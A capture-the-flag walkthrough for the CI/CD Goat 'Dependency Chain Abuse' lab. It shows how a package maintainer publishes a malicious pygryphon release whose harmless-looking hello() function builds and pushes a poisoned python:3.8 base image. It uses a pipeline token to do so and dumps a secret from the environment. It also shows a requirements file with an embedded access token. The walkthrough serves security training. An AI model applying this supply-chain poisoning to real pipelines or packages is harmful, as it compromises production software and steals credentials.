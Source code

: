 [![CICD-SEC-3 Dependency Chain Abuse](https://img.shields.io/badge/CICD--SEC--3-Dependency%20Chain%20Abuse-brightgreen)](https://www.cidersecurity.io/top-10-cicd-security-risks/dependency-chain-abuse/?utm_source=github&utm_medium=github_page&utm_campaign=ci%2fcd%20goat_100422)


Let's explore what we have when signing in to the compromised GitLab:
You are the maintainer of *pygryphon* package, there are also public projects *nest-of-gold* and *awesome-app* which we have a read-only access.
<BR><BR>
As the instructions of this challenge hint us, let's try to see if we can find any reference to *Flag11*.
  <BR>
A simple search tells us it is being referenced by *nest-of-gold* project 
  <BR><BR><BR>

![grpyhon](../images/gryphon-1.png "grpyhon")

  <BR><BR><BR>
We can see that *Flag11* is used in a pipeline that ships a container used in production.
Let's go to this pipeline scheduling, we can see that user named "gryphon" is the owner of this pipeline, and this user is also the owner of the *awesome-app* project's pipeline.
  
Diving into *awesome-app*, it is using our pygrphon package as a dependency!  
this is what the *requirments.txt* file looks like:
  
 <pre><code>
 
 --extra-index-url http://token:cd79dd622c6d463a574635e874765c0b@gitlab/api/v4/projects/pygryphon%2Fpygryphon/packages/pypi/simple --trusted-host gitlab

pytest==7.2.0
flask==2.0.3
Werkzeug==2.0.3
pygryphon==1.0.13
 
</code></pre> 
  <BR><BR><BR>

This means we can influence *awesome-app* pipeline by uploading a new malicious python package of *pygrphon*.
Our end goal is within *nest-of-gold* project, how can we influence it's pipeline?
  
Because our end goal is to reach the "production" docker produced by *nest-of-gold* pipeline, let's have a look at the Dockerfile inside *nest-of-gold* we can see it is dependent on python:3.8 docker image from nest-of-gold container registry and not the offical registrar.
  
   <pre><code>
 
FROM gitlab:5050/wonderland/nest-of-gold/python:3.8

WORKDIR /app
COPY app.py .
COPY requirements.txt .
RUN pip3 install -r requirements.txt

CMD [ "python3", "-m" , "flask", "run", "--host=0.0.0.0"]

 
</code></pre> 
  
Here's comes the tricky part 🥸, let's create a malicious pygryphon package that pushes a malicious python3.8 docker base image to *nest-of-gold* container registry, 
    

In the pipeline of *awesome-app* we can see a PAT behing used named *TOKEN*
<BR>
`docker login -u gryphon -p $TOKEN $CI_REGISTRY`    
Let's try to steal/use this token against the *nest-of-gold* container registry.     
In this package let's create a script named "python3" that the docker image of *nest-of-gold* will execute mistakenly instead of the actual python3 interpreter.   
pygryphon package content:
  
 <pre><code>
   import subprocess

DOCKERFILE = """FROM python:3.8
COPY python3 /usr/local/bin/
COPY python3 /usr/local/bin/pip3"""
PYTHON3 = """#!/bin/bash
env | grep FLAG11 || true"""


def run(cmd):
    proc = subprocess.run(cmd, shell=True, timeout=180)
    print(proc.stdout)
    print(proc.stderr)


def hello(name):
    """
    This function greets to
    the person passed in as
    a parameter
    """
    run('apk add docker-cli')
    with open('Dockerfile', 'w') as f:
        f.write(DOCKERFILE)
    with open('python3', 'w') as f:
        f.write(PYTHON3)
    run('chmod +x python3')
    run('DOCKER_HOST=tcp://docker:2375 docker build -t gitlab:5050/wonderland/nest-of-gold/python:3.8 .')
    run('DOCKER_HOST=tcp://docker:2375 docker login -u gryphon -p $TOKEN $CI_REGISTRY')
    run('DOCKER_HOST=tcp://docker:2375 docker push gitlab:5050/wonderland/nest-of-gold/python:3.8')
    return "Hello, " + name

 </code></pre> 
  
And then build and upload this package to gryphon package registry (after we have configured "gitlab" as our a package registry 
  
   <pre><code>
   pipenv run python3 -m build [path_to_package]
   pipenv run python3 -m twine upload -r gitlab
 </code></pre> 


